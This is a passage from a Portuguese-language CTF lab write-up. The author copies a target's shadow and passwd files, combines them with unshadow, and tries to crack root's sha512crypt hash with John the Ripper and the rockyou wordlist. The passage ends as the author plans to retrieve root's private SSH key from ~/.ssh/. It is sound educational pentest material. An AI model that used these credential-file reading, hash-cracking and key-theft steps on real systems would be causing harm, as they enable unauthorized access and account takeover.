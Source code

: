 Copiamos o conteúdo de `shadow` e de `passwd` para nossa máquina local.   
Já sabemos a senha de `think`, então apenas nos interessa a senha do `root`. Sendo assim, criamos um arquivo `hash` com o utilitário `unshadow`, contendo a hash do usuário `root`.

```shell
┌──(root㉿estudos)-[/home/alex/Desktop]
└─# unshadow passwd shadown > hash
```

O algoritmo de hash utilizado é `sha512`. Vamos utilizar esse formato no programa `john` para descobrir a hash.

![sha512](/assets/img/posts/2025/02/lookup/sha512.png)

```shell
┌──(root㉿estudos)-[/home/alex/Desktop]
└─# john --format=sha512crypt hashes --wordlist=rockyou.txt   
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 SSE2 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:17:59 7.70% (ETA: 22:21:47) 0g/s 1157p/s 1157c/s 1157C/s supermod1..supergirl23
Session aborted
```

Depois de um certo período de tempo executando a quebra, abortamos a execução do programa. Aparentemente, a senha não será descoberta dessa forma. Sabemos o caminho padrão onde o sistema salva as chaves ssh.

Caminho: `~/.ssh/`

Vamos verificar se é possível recuperar a chave privada do usuário `root`
